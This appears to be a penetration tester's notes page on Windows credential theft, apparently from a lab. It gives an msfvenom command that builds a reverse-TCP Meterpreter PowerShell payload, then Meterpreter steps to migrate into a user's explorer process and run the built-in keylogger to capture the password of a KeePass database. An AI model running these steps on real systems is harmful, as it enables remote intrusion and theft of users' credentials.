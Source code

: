 
## General

Users and User Behavior

Windows users have a variety of habits and actions when using the operating system. One important aspect of user behavior is the management of login information, known as credential management. This includes securely storing and managing usernames and passwords. However, malicious actors may use keylogging to steal login information. Keylogging is the act of recording keystrokes on a computer, often done to steal sensitive information such as login credentials. Another tactic used by malicious actors is exploitation, which takes advantage of vulnerabilities in software or systems to gain unauthorized access or control. It is important for Windows users to be aware of these issues and practice safe browsing and login habits, as well as keeping their systems updated to protect against exploitation.


## Commands

Next step would be to look around to see if there is any useful information (Credential). Have a look at the user directories and see if there is some useful information in any of them.

- Example
	Your enumeration efforts lead you to a .kdbx file. A quick Google should confirm our suspicion that this file is indeed very valuable! We can use Meterpreter's download command to recover this file.
	
	This file seems to be a credential database. The issue, however, is that the database is encrypted with a password. We could attempt to crack the password, but anyone who uses a credential database usually has the savvy to make sure the initial password is secure. We may have more success seeing how the user interacts with this database.

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.

Create Meterpreter payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

Use [[• File Sharing (Windows - Linux)]] to import the payload

Get the reverse shell

Check if the users have any running processes on this machine
```
meterpreter\>ps | grep "explorer"
```

Migrate the process to the active process
```
meterpreter\>migrate NUMBER
```

Confirm that we are now running in the context of our target
```
meterpreter\>getuid
```

Start our keylogger
```
meterpreter\>keyscan_start
```

Wait...

Dump captured keystrokes
```
meterpreter\>keyscan_dump
```